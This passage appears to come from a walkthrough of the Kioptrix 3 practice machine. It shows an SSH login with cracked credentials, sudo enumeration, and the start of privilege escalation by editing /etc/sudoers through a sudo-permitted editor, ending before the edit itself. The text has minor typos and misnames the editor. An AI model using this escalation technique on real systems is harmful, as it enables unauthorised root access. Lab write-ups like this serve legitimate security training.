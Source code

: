 Now that we have cracked both passwords let's SSH into the Kioptrix Machine with our newly found credentials.

```console
root@kali:~# ssh loneferret@192.168.1.13
loneferret@192.168.1.13's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$ id

uid=1000(loneferret) gid=100(users) groups=100(users)
```

Okay, at this point we need to escalate our privileges to root! I did some initial reconnaissance of the Kioptrix Machine via SSH and I stumbled across the following.

```console
loneferret@Kioptrix3:~$ ls
checksec.sh  CompanyPolicy.README
loneferret@Kioptrix3:~$ cat CompanyPolicy.README 
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```

It seemed that the user we were currently logged in as had sudo permissions to the xterm-256color text editor. Initially, we can attempt to edit the __/etc/sudoers__ file so we can elevate our privileges - so let's do just that!

If for some reason you get an error when trying to run __sudo ht__ then just export __xtrem-color__ as a TERM like I did below.

```console
oneferret@Kioptrix3:~$ sudo ht /etc/sudoers 
Error opening terminal: xterm-256color.
loneferret@Kioptrix3:~$ export TERM=xterm-color
loneferret@Kioptrix3:~$ sudo ht /etc/sudoers 
```
